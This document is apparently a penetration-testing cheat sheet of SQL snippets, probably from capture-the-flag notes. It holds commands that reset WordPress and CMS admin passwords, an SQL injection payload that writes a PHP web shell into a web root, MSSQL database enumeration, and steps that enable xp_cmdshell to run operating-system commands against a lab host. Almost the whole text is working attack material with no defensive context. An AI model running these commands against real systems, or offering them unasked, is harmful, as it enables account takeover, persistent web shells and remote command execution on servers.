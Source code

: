 #### Updating Values in MYSQL
```
update wp_users set user_pass = "$P$B0UOh9YS6MeiohOubcxGHfv4uk2gjJ0" where user_login = "admin";

update cms_users set password = md5("admin") where username = "admin";
```

#### SQL Injection into File
```
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'
```

#### Basic MSSQL Commands
```
(List Databases")
1>EXEC sp_databases;
2>go
OR
1>SELECT name FROM master.dbo.sysdatabases;
2>go;
```

#### MSSQL Command Execution
```
sqsh -S 10.10.10.59:3306 -U sa "login with the username sa"
1> EXEC SP_CONFIGURE N'show advanced options', 1
2> go
1> RECONFIGURE
2> go
1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
2> go
1> RECONFIGURE
2> go
1> xp_cmdshell 'dir C:\';
2> go
```